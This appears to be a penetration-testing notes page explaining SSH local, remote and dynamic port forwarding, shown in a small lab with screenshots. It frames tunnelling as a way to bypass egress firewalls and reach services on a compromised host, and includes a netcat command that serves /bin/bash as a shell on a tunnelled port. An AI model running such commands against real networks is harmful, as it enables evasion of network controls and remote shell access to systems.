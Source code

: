 # Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER \(like a proxy\) which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999\) and forward all that traffic to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box which has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words - it exposes an otherwise obscured port to the host on the other end of the tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any port sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host with an obsucure service.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\):

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```text
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding with ssh tunnels is:

```csharp
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

Which essentially means - bind port 8080 on localhost and any traffic that gets sent to this port, please just relay it to the SSH\_SERVER - I trust it to make the connections for me and send any data it sees back to me.

For the demo, let's check what is my current IP before the ssh tunnel is setup:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on a local machine \(10.0.0.5

```text
ssh -D9090 root@159.65.200.10
```

![](../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the local host, we can see that the port 9090 is now exposed:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, it should use the other host of our ssh tunnel \(159.65.200.10\) as a proxy - 159.65.200.10 will make connections oin behalf of us and return any data it receives.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

Now if we test what our IP is again, we can see that the we are indeed masquerading the internet as 159.65.200.10:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% embed data="{\"url\":\"https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html\",\"type\":\"link\",\"title\":\"SSH Tunnel - Local and Remote Port Forwarding Explained With Examples -  Trackets Blog\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.trackets.com/images/favicon.ico\",\"aspectRatio\":0}}" %}

